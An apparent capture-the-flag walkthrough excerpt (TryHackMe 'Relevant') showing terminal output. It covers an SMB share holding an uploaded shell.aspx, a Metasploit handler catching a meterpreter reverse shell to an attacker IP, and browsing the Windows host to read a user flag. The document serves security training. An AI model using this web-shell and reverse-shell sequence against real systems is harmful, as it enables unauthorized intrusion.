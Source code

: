 ```
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 4935058 blocks available
smb: \>
```

```
kali@kali:~/CTFs/tryhackme/Relevant$ msfconsole -q
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.106.222
lhost => 10.8.106.222
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.106.222:4444
[*] Meterpreter session 1 opened (10.8.106.222:4444 -> 10.10.9.11:49873) at 2020-10-14 21:52:05 +0200
```

```
meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > cd c:/users
meterpreter > dir
Listing: c:\users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:52 +0200  .NET v4.5
40777/rwxrwxrwx   0     dir   2020-07-25 17:05:49 +0200  .NET v4.5 Classic
40777/rwxrwxrwx   0     dir   2020-07-25 16:57:31 +0200  Administrator
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  All Users
40777/rwxrwxrwx   0     dir   2020-07-25 17:21:26 +0200  Bob
40555/r-xr-xr-x   0     dir   2016-07-16 08:04:24 +0200  Default
40777/rwxrwxrwx   0     dir   2016-07-16 15:34:35 +0200  Default User
40555/r-xr-xr-x   0     dir   2016-07-16 15:23:21 +0200  Public
100666/rw-rw-rw-  174   fil   2016-07-16 15:23:24 +0200  desktop.ini

meterpreter > cd c:/users/Bob/Desktop
meterpreter > dir
Listing: c:\users\Bob\Desktop
=============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  35    fil   2020-07-25 17:23:52 +0200  user.txt

meterpreter > cat user.txt
THM{fdk4ka34vk346ksxfr21tg789ktf45}
```
